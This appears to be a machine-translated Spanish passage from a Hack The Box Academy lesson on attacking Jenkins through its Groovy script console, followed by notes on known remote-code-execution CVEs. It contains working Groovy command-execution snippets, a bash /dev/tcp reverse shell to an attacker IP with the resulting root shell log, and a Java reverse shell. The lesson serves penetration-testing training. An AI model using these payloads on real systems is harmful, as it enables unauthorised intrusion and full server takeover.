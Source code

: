 # Attacking Jenkins

Hemos confirmado que el host está ejecutando Jenkins, y está configurado con credenciales débiles. Veamos y veamos qué tipo de acceso nos dará.

Una vez que hayamos obtenido acceso a una aplicación Jenkins, una forma rápida de lograr la ejecución de comandos en el servidor subyacente es a través del[Consola de guiones](https://www.jenkins.io/doc/book/managing/script-console/). La consola de script nos permite ejecutar scripts groovy arbitrarios dentro del tiempo de ejecución del controlador Jenkins. Esto se puede abusar de ejecutar comandos del sistema operativo en el servidor subyacente. Jenkins a menudo se instala en el contexto de la cuenta raíz o del sistema, por lo que puede ser una victoria fácil para nosotros.

---

# **Consola de guiones**

Se puede llegar a la consola de guiones en la URL`http://jenkins.inlanefreight.local:8000/script`. Esta consola permite que un usuario ejecute Apache[Groovy](https://en.wikipedia.org/wiki/Apache_Groovy)Scripts, que son un lenguaje compatible con Java orientado a objetos. El lenguaje es similar a Python y Ruby. El código fuente Groovy se compila en Java Bytecode y puede ejecutarse en cualquier plataforma que haya instalado JRE.

Usando esta consola de script, es posible ejecutar comandos arbitrarios, que funcionen de manera similar a un shell web. Por ejemplo, podemos usar el siguiente fragmento para ejecutar el`id`dominio.

Código:groovy

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout

```

![](https://academy.hackthebox.com/storage/modules/113/groovy_web.png)

Hay varias formas en que se puede aprovechar el acceso a la consola de script para obtener una carcasa inversa. Por ejemplo, usando el comando a continuación, o[este](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/)Módulo MetaSploit.

Código:groovy

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

Ejecutar los comandos anteriores da como resultado una conexión de shell inverso.

Atacando a Jenkins

```
xnoxos@htb[/htb]$ nc -lvnp 8443listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#

```

Con un host de Windows, podríamos intentar agregar un usuario y conectarse al host a través de RDP o WinRM o, para evitar hacer un cambio en el sistema, usar una descarga de PowerShell Cuns[Invoke-Powershelltcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Podríamos ejecutar comandos en una instalación de Jenkins basada en Windows usando este fragmento:

Código:groovy

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");

```

También podríamos usar[este](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy)Java Reverse Shell para obtener la ejecución de comandos en un host de Windows, intercambiando`localhost`y el puerto para nuestra dirección IP y puerto del oyente.

Código:groovy

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

---

# **Vulnerabilidades diversas**

Existen varias vulnerabilidades de ejecución de código remoto en varias versiones de Jenkins. Un exploit reciente combina dos vulnerabilidades, CVE-2018-1999002 y[CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266)Para lograr la ejecución de código remoto preautenticado, evitando la protección de sandbox de seguridad del script durante la compilación de script. Existen POC de explotación pública para explotar un defecto en el enrutamiento dinámico de Jenkins para evitar el ACL general / lectura y usar Groovy para descargar y ejecutar un archivo JAR malicioso. Esta falla permite a los usuarios con permisos de lectura para evitar las protecciones de Sandbox y ejecutar código en el servidor Master Jenkins. Este exploit funciona contra Jenkins versión 2.137.

Existe otra vulnerabilidad en Jenkins 2.150.2, que permite a los usuarios de creación de empleo y construir privilegios para ejecutar código en el sistema a través de Node.js. Esta vulnerabilidad requiere autenticación, pero si los usuarios anónimos están habilitados, el exploit tendrá éxito porque estos usuarios tienen creación de empleo y crean privilegios de forma predeterminada.

Como hemos visto, obtener acceso a Jenkins como administrador puede conducir rápidamente a la ejecución de código remoto. Si bien existen varios exploits de RCE en funcionamiento para Jenkins, son específicos de la versión. Al momento de escribir, el lanzamiento actual LTS de Jenkins es 2.303.1, que fija los dos defectos detallados anteriormente. Al igual que con cualquier aplicación o sistema, es importante endurecer a Jenkins tanto como sea posible, ya que la funcionalidad incorporada se puede usar fácilmente para hacerse cargo del servidor subyacente.

---

# **Engranajes de cambio**

Hemos cubierto varias formas en que las aplicaciones populares de desarrollo de software CMS y Servlet se pueden abusar de explotar tanto las vulnerabilidades conocidas como la funcionalidad incorporada. Cambiemos nuestro enfoque un poco a dos herramientas de monitoreo de red/infraestructura bien conocidas: Splunk y PRTG Network Monitor.